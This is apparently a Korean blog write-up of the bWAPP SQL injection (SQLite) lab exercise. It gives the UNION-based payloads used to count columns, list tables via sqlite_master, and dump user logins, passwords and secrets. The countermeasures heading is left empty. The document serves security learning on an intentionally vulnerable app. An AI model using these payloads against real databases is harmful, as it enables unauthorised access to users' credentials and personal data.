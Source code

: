 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - (SQLite)"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

### SQLite

MySQL이나 PostgreSQL과 같은 DBMS지만,

서버가 아니라 응용프로그램에 넣어 사용하는 비교적 가벼운 DB.

일반적인 DBMS에 비해 대규모작업에는 적합하지 않지만, 중소 규모라면 속도에 손색 없음.

또 API는 단순히 라이브러리를 호추하는 것만 있으며, 데이터를 저장하는 데 하나의 파일만을 사용하는 것이 특징.

<br>

## Object

개인정보를 탈취해보자

![image-20220316215828299](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316215828299.png)

- 똑같이 진행해보자.
- SQLite는 문법이 조금 다른데 같은 방식으로 진행하면서 설명하겠다.

<br>

### 항상 참 구문

![image-20220316220032987](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316220032987.png)

- `"SELECT column FROM tables WHERE movie= ' " &movie " ' "` 마찬가지로 다음과 같이 SQL 문이 작성됐을거라 유추해보자.
- 일반적인 DBMS는 주석이 #인데 SQLite는 -- 이다.
- 아무튼 항상 참인 구문을 넣어 전체를 조회해봤다.

<br>

### 컬럼 갯수

![image-20220316220340113](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316220340113.png)

`' union select all 1,2,3,4,5,6 --` 

- `' union select all 1--` ~ `' union select all 1,2,3,4,5,6--` 까지 쭉해보면 컬럼 갯수가 6개인 것을 확인할 수 있다.

<br>

### 테이블 확인

![image-20220316220903944](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316220903944.png)

`' union select all 1,tbl_name,3,4,5,6 from sqlite_master--` 

- tbl_name = table_name 이고
- sqlite_master = inforamtion_schema 이다.
  - information_schema는 MySQL 서버내에 존재하는 DB의 메타정보(DB,테이블,컬럼 등의 모든 정보)

<BR>

### 컬럼 확인

![image-20220316221143015](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316221143015.png)

`0' union select all 1,sql,3,4,5,6 from sqlite_master where tbl_name='users'--` 

- slq = column_name
- 컬럼들 확인
- 참고로 앞에 0을 지정해주면 내가 조회하고자 하는 자료들만 볼 수 있다.

<br>

### 컬럼 속성

![image-20220316221437697](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316221437697.png)

`' union select all 1,id,login,password,secret,6 from users--`

- 성공적으로 개인정보를 갈취했다.

<br>

<br>

## 대응방안







